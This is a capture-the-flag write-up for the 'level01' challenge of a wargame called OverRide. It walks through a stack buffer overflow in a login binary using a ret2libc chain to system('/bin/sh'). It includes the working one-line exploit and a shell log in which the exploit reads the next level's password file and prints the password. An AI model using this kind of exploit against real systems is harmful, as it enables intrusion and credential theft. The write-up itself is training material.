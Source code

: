 # level01

In this level, we have a binary that asks for a username and a password. If we give it the correct username and password, technically it should open a shell for us. However, it doesn't, even if we give it the correct username and password.

To find the username and password, see the [gdb writeup](Ressources/gdbwriteup.md).

We can see that the program is segfaulting if we enter a password that is too long, we will define the offset with [wiremask](https://wiremask.eu/tools/buffer-overflow-pattern-generator/).

We can deduce that the offset is 80 bytes.

Different addresses needed for the exploit:

- `0xf7e6aed0` : address of system()
- `0xf7e5eb70` : adddress of exit()
- `0xf7f897ec` : address of "/bin/sh"

We need to convert all the addresses to little endian. 

- `0xf7e6aed0` -> `\xd0\xae\xe6\xf7`
- `0xf7e5eb70` -> `\x70\xeb\xe5\xf7`
- `0xf7f897ec` -> `\xec\x97\xf8\xf7`


Now, we can write the exploit:

```bash
(python -c 'print("dat_wil\n" + "A" * 80 + "\xd0\xae\xe6\xf7" + "\x70\xeb\xe5\xf7" + "\xec\x97\xf8\xf7")'; cat) | ./level01
```

```bash
level01@OverRide:~$ (python -c 'print("dat_wil\n" + "A" * 80 + "\xd0\xae\xe6\xf7" + "\x70\xeb\xe5\xf7" + "\xec\x97\xf8\xf7")'; cat) | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...

whoami
level02
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```